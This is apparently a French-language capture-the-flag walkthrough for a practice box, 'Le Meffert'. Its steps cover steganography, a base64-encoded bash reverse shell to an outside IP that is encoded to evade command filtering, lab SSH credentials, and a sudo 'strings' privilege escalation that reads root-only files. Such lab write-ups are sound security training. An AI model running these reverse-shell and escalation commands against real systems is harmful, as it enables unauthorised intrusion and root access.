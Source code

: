 # Le Meffert - CTF Walkthrough

## Sommaire

1. [Découverte des ports inversés](#1-découverte-des-ports-inversés)
2. [Analyse Steganographie](#2-analyse-steganographie)
3. [Accès au site web](#3-accès-au-site-web)
4. [Reverse Shell encodé](#4-reverse-shell-encodé)
5. [Accès SSH avec identifiants](#5-accès-ssh-avec-identifiants)
6. [Escalade de privilèges via sudo + strings](#6-escalade-de-privilèges-via-sudo--strings)

---

## 1. Découverte des ports inversés

Lors du scan de la machine, on remarque que les ports 80 et 22 sont inversés :
- Le **port 22** sert en réalité de **serveur HTTP**.
- Le **port 80** semble ne rien renvoyer ou être filtré.

Il faut donc débloquer l'accès au **port 22 dans Firefox** (ou un autre navigateur) pour naviguer sur le site web :

```
http://<BOX_IP>:22
```

C’est là que se trouvent les images importantes, notamment `cube_gold.jpg`.

## 2. Analyse Steganographie

Extraction de données cachées dans l'image `cube_gold.jpg` :

```bash
steghide extract -sf cube_gold.jpg -p "5Uch_4_G3n1u5_cR34ToR"
```

Un fichier caché est extrait, contenant une URL :

```
http://10.10.186.117:22/my_very_secret_dir/index.php
```

## 3. Accès au site web

On se rend sur l’URL donnée. C’est un point d’injection potentiel pour uploader du code.

## 4. Reverse Shell encodé

Le serveur applique des restrictions sur les commandes, donc on encode notre payload reverse shell en base64 pour contourner :

```bash
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC45Mi41OS85MDAxIDA+JjE=" | base64 -d | bash
```

Ce qui revient à :

```bash
sh -i >& /dev/tcp/10.8.92.59/9001 0>&1
```

On écoute sur notre machine :

```bash
nc -lvnp 9001
```

Shell obtenu ✅

## 5. Accès SSH avec identifiants

Contenu du fichier `passwd` obtenu :

```
Username: uweThePuzzleMaster
Password: i_W4N7_70_C0Ll3C7_4Ll_Pu22l35
```

Connexion SSH :

```bash
ssh uweThePuzzleMaster@10.10.186.117
# Password: i_W4N7_70_C0Ll3C7_4Ll_Pu22l35
```

## 6. Escalade de privilèges via sudo + strings

Une fois connecté, on vérifie les permissions sudo :

```bash
sudo -l
```

Résultat : `strings` peut être exécuté en tant que root sans mot de passe.

On l'utilise pour lire les fichiers protégés :

```bash
sudo strings /root/root.txt
sudo strings /home/uweThePuzzleMaster/user.txt
```

🎉 **1er Flag obtenu**
🎉 **2ème Flag obtenu**
---

🧩 **Root et User flag obtenus sur Le Meffert !**

Tu viens à bout des puzzles comme un vrai Meffert Master 🔓
